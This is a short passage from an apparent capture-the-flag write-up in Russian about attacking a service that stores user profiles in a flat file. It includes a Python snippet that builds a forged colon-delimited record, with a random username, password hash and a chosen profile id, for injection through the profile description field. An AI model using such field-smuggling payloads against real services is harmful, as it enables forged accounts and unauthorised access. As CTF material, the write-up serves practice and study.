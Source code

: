 Смотрим исходники, видим что база данных хранится в файле

Придумываем инъекцию в description (register_profile и потом login_profile)

```python
import random
import string
from passlib.context import CryptContext
inj_usernameandpassword = ''.join(random.choice(string.ascii_lowercase) for _ in range(11))
inj_passhash = CryptContext(schemes=["bcrypt"], deprecated="auto").hash(inj_usernameandpassword)
inj_firstandlastname = ''.join(random.choice(string.ascii_lowercase) for _ in range(11))
inj_profile_id = 'e44341f22af741240fea9c98277e1430'
inj_desc = 'e44341f22af741240fea9c98277e1430'
print(f"{inj_firstandlastname}:{inj_firstandlastname}:{inj_usernameandpassword}:{inj_passhash}:{inj_profile_id}:{inj_desc}")
```


